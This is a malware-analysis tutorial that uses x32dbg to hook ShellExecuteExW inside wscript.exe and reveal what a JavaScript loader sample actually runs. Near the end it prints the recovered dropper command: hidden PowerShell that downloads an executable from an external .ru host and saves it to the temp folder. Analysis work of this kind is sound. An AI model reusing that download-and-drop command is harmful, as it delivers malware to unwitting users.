 ***Overview*** 

Original idea credits go to Open Analysis Labs(OALabs). This will cover using a debugger to hook standard Windows API function calls used in JavaScript/VBScript loaders used in malware to analyze the original loader.  

***Tools***

- JavaScript Loader Sample.  `Hash: 7616fd825e223fb6f7bfdc0c025a2cf0196b8959cad69eda959c21a7d31e71d5`

- x32/64dbg

***Understanding wscript.exe***

Essentially when Windows runs a JavaScript/VBScript, which calls Windows API functions, it will use wscript.exe as a middle man between the script and the Windows API.

It looks something like the following:

`loader.js -> wscript.exe -> ShellExecuteA`

***Some common function calls used in cases like this are:***

WSASocketW  GetAddrInfoExW  WSASend 

WSAStarup    URLDownloadToFile  ShellExecuteA

ShellExecuteExW 

***Common DLLs:***

shell32.dll and ws2_32.dll

***Technical Begin***

Attach the debugger to wscript.exe located at `C:\Windows\SysWOW64\wscript.exe`

Provide the path to the script file so wscript.exe can execute it. You can do this in x32dbg by going to `File -> Change Command Line`

At this point, you should be ready to go. In the case of this loader, we need to set a breakpoint on shell32.dll. We can not set breakpoints yet on the function calls because they have not been imported yet hence why we need to break on the import of shell32.dll and then move forward on setting up hooks (Breakpoints) on the common function calls. 

Navigate to Breakpoints and in the Command section at the bottom, set a breakpoint on shell32.dll, and then you should see it enabled. 

![image](https://user-images.githubusercontent.com/95584654/158504637-ce708340-f9fd-4aa7-a937-fb755e69bf91.png)


At this point, you can start the debugger and continue until you hit the breakpoint to load the shell32.dll. Looking at the Breakpoint page, we can see that we have one hit on our breakpoint. Navigate to the Symbols page and click on shell32.dll. At this point, you can see all of the symbols. Filter for ShellExecuteExW and set a hook (Breakpoint) on it. 

![image](https://user-images.githubusercontent.com/95584654/158504684-d978c75f-423c-4929-8a4d-6a5892ae803c.png)


After setting the breakpoint, continue debugging and you should hit the breakpoint on ShellExecuteExW. We want to look at the parameters for the function that were pushed on the stack—looking at the MSDN documentation for ShellExecuteExW. The only "parameter" is a pointer to the SHELLEXECUTEINFOW structure. 

Looking at the structure, the two main parameters we want to look at are LPCSTR lpVerb and LPCSTR lpFile. 

You can read about the structure here: https://docs.microsoft.com/en-us/windows/win32/api/shellapi/ns-shellapi-shellexecuteinfoa 

Since we hit our hook on the ShellExecuteExW, we can look at the stack to identify the parameters for the SHELLEXECUTEINFOW structure. 

![image](https://user-images.githubusercontent.com/95584654/158504728-ec02b60c-58f1-45de-8dcc-8f6419620306.png)


We can see the cleartext parameters used in the dropper by doing this. At this point, we can right-click on those lines and select

`Copy -> Copy Selected Lines`

It is calling PowerShell as we can see. Let's take a look at the cleaned up command below: 

```
cmd "/c start /b powershell -WindowStyle Hidden 
$http_request = New-Object -ComObject Msxml2.XMLHTTP;
$adodb = New-Object -ComObject ADODB.Stream;
$path = $env:temp + '\\1079.exe';
$http_request.open('GET', 'http://kanalmalakotv.ru/documenty/pax18.exe?rnd=12802', $false);
$http_request.send();
if($http_request.Status -eq \"200\"){$adodb.open();$adodb.type = 1;$adodb.write($http_request.responseBody);
$adodb.position = 0;
$adodb.savetofile($path);
$adodb.close();}
```
